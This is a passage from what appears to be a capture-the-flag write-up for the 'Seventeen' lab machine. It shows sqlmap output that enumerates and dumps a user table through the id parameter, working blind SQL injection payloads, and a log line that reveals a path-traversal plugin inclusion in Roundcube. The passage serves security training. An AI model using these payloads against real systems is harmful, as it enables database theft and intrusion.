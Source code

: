 +-----------+-------------+
| firstname | varchar(45) |
| lastname  | varchar(45) |
| password  | varchar(50) |
| status    | varchar(20) |
| user_id   | int(11)     |
| username  | varchar(20) |
+-----------+-------------+

[11:34:50] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/exam.seventeen.htb'

[*] ending @ 11:34:50 /2022-07-20/
```
Dump ```users``` table:
```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://exam.seventeen.htb/?p=take_exam&id=1" -batch -D db_sfms -T user -C username
        ___
       __H__                                                                                                                                                
 ___ ___["]_____ ___ ___  {1.6.6#stable}                                                                                                                    
|_ -| . [.]     | .'| . |                                                                                                                                   
|___|_  [']_|_|_|__,|  _|                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:37:05 /2022-07-20/

[11:37:05] [INFO] resuming back-end DBMS 'mysql' 
[11:37:05] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=05dc3ad3d89...5d26fb0fad'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: p=take_exam&id=1' AND 1565=1565 AND 'Vlli'='Vlli

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: p=take_exam&id=1' AND (SELECT 8047 FROM (SELECT(SLEEP(5)))Verc) AND 'RSwQ'='RSwQ
---
[11:37:06] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: PHP, Apache 2.4.38, PHP 7.2.34
back-end DBMS: MySQL >= 5.0.12
[11:37:06] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/exam.seventeen.htb'


[08-Apr-2022 17:55:26 +0000]: PHP Error: No plugin class ../../../../../../../../../var/www/html/oldmanagement/files/31234/papers found in /var/www/html/mastermailer/plugins/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers.php in /var/www/html/mastermailer/program/lib/Roundcube/rcube_plugin_api.php on line 188 (GET /mastermailer/)